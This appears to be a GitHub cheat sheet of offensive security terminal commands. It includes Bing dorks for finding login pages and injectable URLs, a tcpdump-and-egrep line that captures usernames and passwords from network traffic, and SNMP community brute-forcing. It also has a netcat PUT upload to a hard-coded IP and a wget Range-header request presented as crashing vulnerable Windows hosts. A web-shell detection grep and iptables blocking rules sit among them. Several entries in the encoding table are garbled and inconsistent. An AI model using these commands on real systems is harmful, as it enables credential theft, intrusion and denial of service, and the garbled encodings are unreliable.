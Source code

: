# <img width="28" src="http://0z3r00t3r.6te.net/img/folder.png"> Terminal / Other
##### &#x1F538;  VPN config (term) :
`sudo openvpn --config vpnbook-euro2-tcp80.ovpn`

`hashcat -a 3 --stdout ?l | gobuster dir -u https://TARGET -w - --wildcard`

##### &#x1F538;  BEST DORK FOR Bing.com : 
    -site:.com intitle:login.page inbody:"User Login"
    intitle:login.page inbody:"User Login" instreamset:url:".php"
    intitle:"Admin Login" inbody:"login"
    intitle:"User Login" instreamset:url:login.php?id=
    intitle:"News" instreamset:url:news_id.php?id=
    inbody:"login" instreamset:url:sa/index.php?id=
    
    
##### &#x1F538; SSLscan Show full certificate information : 
`sslscan --http --bugs --verbose --show-certificate target.com`
    
##### &#x1F538; TCPdump eGrep username / password : 
`sudo tcpdump -A -i any -w loging.pcap | egrep -i 'username=|password=' --line-buffered -B20`

    sudo /usr/sbin/tcpdump -Nnn -i any -s0 'tcp[13] & 1 != 0'
    #Block ip : 
     - sudo iptables -A INPUT -s IP -j DROP
     - sudo /usr/sbin/tcpdump host <ip>	#check the ip traffic
     - sudo /usr/sbin/tcpdump portrange 80-137-443-445		#check port range between 80-445
     - sudo /usr/sbin/tcpdump src 10.0.0.13 and dst port 80 or 22	#traffic that from ip and port 
    

##### &#x1F538; AnyCMD : 
    #resolve websites
    - pnscan -v -s -t10 <TARGET>/24 80
    - dmitry -winsepo output.txt <TARGET>
    
    #check vm with crunch list install (sudo apt intall onesixtyone)
    - crunch 4 4 ad12 > smpList
    - onesixtyone -c smpList -d <TARGET>
    - snmpcheck -c smpList -d <TARGET>
    
    #TCP, UDP open ports in real time with socket summary
    - watch ss -stplu
    
    #view established connections
    - lsof -i
    - #looking for cracks:google:(Xxxx)" 94fbr)
    #Adding random word before list ex: admin -> will be -> 9xadmin,eqadmin,ifadmin:
    - paste <(base64 -w2 /dev/urandom) user_list.txt | awk 'NF==2{print $1$2} NF!=2{exit}'
    
##### &#x1F538; Grep / Find String : 
    #find inside any file and print it 
    - find /usr/share -iname '*SQLMAP*' -print
    - find /var/www/ -name "*.php"
    - find /home -type f -name '*.php' -mtime -7
    - find /var/www/html/ -type d -perm 755 -exec find {} -name "*.zip" \;
    - find / -xdev -type f -size +100M -exec ls -la {} \; | sort -nk 5
    - find . -name "*.sql"
    #Zip all folders to a1.zip
    - zip -r a1.zip .
    #Remove space between lines in file.txt / a.json result
    - sed '/^ *$/d' a1.json > output.txt
    #Print & save only 5 words in list.txt
    - awk 'length>5' list.txt > done_list.txt
    #Remove duplicate lines from file.txt file :
    - sort file.txt | uniq -d
    - sort -u file.txt
    
#### &#x1F538; Reading files end with php and search for Shell :
    grep '((eval.*(base64_decode|gzinflate|\$_))|\$[0O]{4,}|FilesMan|JGF1dGhfc|IIIl|die\(PHP_OS|posix_getpwuid|Array\(base64_decode|document\.write\("\\u00|sh(3(ll|11)))' . -lroE --include=*.php*

##### &#x1F538; SCAN Methods With openssl
    #Open terminal and type : 
        - openssl s_client -connect <TARGET:443>
    #Hit enter twice and enter :    
        OPTIONS / HTTP/1.1
        Host: <TARGET>

##### &#x1F538; PUT FILE WITH NetCat
    nc 190.115.18.139 80
    PUT /x.txt HTTP/1.1
    Host: 190.115.18.139



### &#x1F538; Hashed Type : 
    Urlencode : wef
    Double Urlencode : wef
    Base 64 : dDR0ZWFt
    Uri Hexadecimal : %74%34%74%65%61%6d
    Random upper : wef
    Double nibble hexa : %%37%34%%33%34%%37%34%%36%35%%36%31%%36%64
    SHA1 : 376ccc0db6534301362711e1fbc455f9710b447a
    MD5 : 7c3a9746c0bb3c99f4877edbbf6d3690
    Binary Ascii : 74347465616d
    Html Decimal : &#116;&#52;&#116;&#101;&#97;&#109;
    Html Hexadecimal : &#x74;&#x34;&#x74;&#x65;&#x61;&#x6d;
    UTF-8 Binary : \x74\x34\x74\x65\x61\x6d
    UTF-8 : \u0074\u0034\u0074\u0065\u0061\u006d
    Mysql char : CHAR(116,52,116,101,97,109)
    MSsql char : CHAR(116)+CHAR(52)+CHAR(116)+CHAR(101)+CHAR(97)+CHAR(109)
    All : CHAR(116)+CHAR(52)+CHAR(116)+CHAR(101)+CHAR(97)+CHAR(109)


##### &#x1F538; Check If return [Requested Range Not Satisfiable] means vulnerable :
    wget --header="Range: bytes=0-18446744073709551615" http://<TARGET/FILE.FILE
##### &#x1F538; Check if [BSOD] Vulnerable systems:
    wget --header="Range: bytes=18-18446744073709551615" http://<TARGET/FILE.FILE
##### &#x1F538; Stop ip / Block :
    sudo iptables -A INPUT 1 -s IP-ADDRESS-DDOS-HACKER-HERE -j DROP/REJECT
    sudo iptables-save 
   
    #Block IPs#4v3r
    - iptables -A INPUT -s xxxxxx -j DROP
    - iptables -A INPUT -s xxxxxxx -j DROP
    - iptables -A INPUT -s xxxxxxxx -p tcp --destination-port 80 -j DROP
    - iptables -A INPUT -s xxxxxxxx -p tcp --destination-port 443 -j DROP

##### &#x1F538; Generate 1M 0-1,000,000 number
    #!/usr/bin/env bash
    i=1
    while [ $i -le 1000000 ]
    do
        echo $i
        i=$(($i+1))
    done
 
 ##### &#x1F538; Random List 4 Words
    #!/usr/bin/env bash
    i=1
    while [ $i -le 10000 ]
    do
        tr -dc a-z0-9 </dev/urandom | head -c 4 ; echo ''
        i=$(($i+1))
    done

